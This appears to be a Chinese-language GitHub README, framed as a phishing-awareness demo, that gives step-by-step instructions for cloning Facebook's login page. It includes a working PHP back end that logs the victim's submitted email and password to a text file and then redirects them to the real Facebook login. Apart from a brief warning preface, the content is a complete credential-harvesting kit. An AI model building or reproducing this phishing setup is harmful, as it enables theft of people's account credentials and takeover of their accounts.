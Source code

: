 # Facebook釣魚架設     

## 前言
此教程展示主要是要告訴大家，釣魚網站製作可以很簡單，所以大家在使用網頁時，針對可疑的連結不要輕易去點，網址記得要去查看是否為正確，或是把常用的連結弄成書籤，以避免被釣魚網站竊取帳密

## 影片展示
https://www.youtube.com/watch?v=t0YWDlTCjr4

## 製作過程
### FB釣魚頁面製作(index.html)
先在真正的Facebook頁面按右鍵"檢視原始碼"

![](image/a.png)

把原始碼都複製下來

![](image/b.png)

貼在自己的index.html

然後用Ctrl+F 尋找"form"，把action後的內容改成login.php

![](image/c.PNG)

### php 後端程式編寫(login.php)
```php
<?php
$passwd = $_POST["pass"];
$account = $_POST["email"];
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
?>
<html>
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
<body>
Something goes wrong.Redirecting.......
</body>
</html>
```
```php
$passwd = $_POST["pass"];
$account = $_POST["email"];
```
以上帳號密碼的名稱可以從form表單得知

![](image/d.PNG)

以下為php語法，把前端輸入的帳號密碼寫到logfile.txt檔案裡
```php
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
```
跳轉到真正的FB頁面
```html
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
```